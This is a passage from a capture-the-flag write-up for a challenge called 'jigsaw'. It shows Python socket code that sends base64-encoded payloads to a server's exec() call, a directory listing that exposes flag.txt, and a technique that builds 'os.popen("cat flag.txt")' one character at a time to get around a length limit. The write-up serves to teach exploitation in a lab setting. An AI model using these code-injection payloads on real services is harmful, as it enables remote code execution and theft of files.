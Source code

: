 ```py

con.send(b"ezU6772FeGVjKGYnZ2xvYmFsIGI7Yj17YX0nKX0=") # b = exec(a)
time.sleep(1)
print(con.recv(4096).decode())

con.send("eyJ1c2VyX25hbWUiOnN0cihiKX0=".encode()) # print(b)
#con.send(b"eyJ1c2VyX25hbWUiOnN0cihhKX0=") # print(a)
time.sleep(1)
print(con.recv(4096).decode())
```

End of the output : 

```py
username not found
Please give your username for the leaderboard

username not found
Please give your username for the leaderboard

No existing score for ['jigsaw2.db', 'supervisord.log', 'jigsaw.log', '__pycache__', 'supervisord.pid', 'flag.txt', 'questions.py', 'db.py', 'venv', 'requirements.txt', 'SessionHandler.py', 'jigsaw2.py', 'words.txt']
Please give your username for the leaderboard
```


We can see that there is a file called `flag.txt`, let's try to get his content with the command `cat flag.txt`.

```py
global os; import os
os.popen("cat flag.txt").read()
```

There is one single problem, to do a `"`, we need to send `exec('a+="\""')` which does 28 characters with the `\`.

To overcome this problem, I simple created a new varaible called `c = '"'`. How ?

When we create a new variable, we only need to use `=` and not `+=`, so we basically can send 2 characters during affectaion. So I just need to create `c ` with `exec('c="\""')` and then use `c` with `exec('a+=c')`.

Let's create the proogram, as for the previous one, I won't put everything here, you can find the complete program [here](scripts/jigsaw-get-flag.py)

```py
### global os;import os

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthPSJnbCInKX0=") # a = "gl"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibyInKX0=") # a += "o"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYiInKX0=") # a += "b"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0iYSInKX0=") # a += "a"
time.sleep(1)
print(con.recv(4096).decode())

con.send(b"ezU6772FeGVjKCdnbG9iYWwgYTthKz0ibCInKX0=") # a += "l"
time.sleep(1)
```
